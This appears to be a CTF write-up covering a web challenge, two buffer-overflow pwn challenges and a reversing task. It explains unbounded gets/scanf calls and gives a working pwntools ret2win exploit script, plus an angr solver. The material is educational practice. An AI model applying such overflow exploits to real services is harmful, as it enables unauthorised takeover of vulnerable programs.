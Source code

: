 ## WEB

### Health care

#### Descripttion 

You finally come across a unique health care application. Everyone has tried their best to get info from it, but no one has been able to get anything useful. It allways makes silly excuses. Can you help us?

this challenge is quite similar to the last ctf i.e. VishwaCTF-2024's H34DE

![health_care.png](web/03_health_care/health_care.png)

## PWN

### overflow

#### Description

I found an exposed service on a power grid machine. I heard that buffer overflow is one of the most common memory corruption bugs. Maybe it might work here?

##### Main func

![overflow1.png](pwn/01_overflow/overflow1.png)

if you see line 11 **gets** function being used that means its clearly vulnerable bof as no-bound checking, so we can leverage it for overwriting **local_14** var  as flag function is being called if and only if **local_14 != 0** where flag func print the flag.

##### Flag func

![overflow2.png](pwn/01_overflow/overflow2.png)

##### Solve

![overflow-solve.gif](pwn/01_overflow/overflow-solve.gif)


### bof

#### Description


##### Main func

![bof1.png](pwn/02_bof/bof/bof1.png)

function on line no. 10 being used is most probably **scanf** function and same as before no bound checking where the first arg i.e. is **%s** format specifier and second one is user input.

##### secretFunction func

![bof2.png](pwn/02_bof/bof/bof2.png)

this particular function is printing the flag.

okay, pretty clear it is. its just typical ret2win challenge 

##### Exploit 

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
libc = elf.libc

context.binary = elf

gdbscript='''
'''

def conn(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([elf.path] + argv, *a, **kw)

def main():
    r = conn()

    padding = cyclic(40)
    win = elf.symbols['secretFunction']
    payload = padding + pack(win)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

## REV

### byte by byte

#### Description


##### Main func

![byte1.png](rev/03_byte_by_byte/byte1.png)

scattered flag , we can do it either manually or using angr

##### Solve

```python
import angr
import re 

project = angr.Project("./condition", auto_load_libs=False)

@project.hook(0x401584)  # Target address
def print_flag(state):
    print("VALID INPUT:", state.posix.dumps(0))
    project.terminate_execution()

project.execute()
``` 

![bytebybyte-solve.png](rev/03_byte_by_byte/bytebybyte-solve.png)

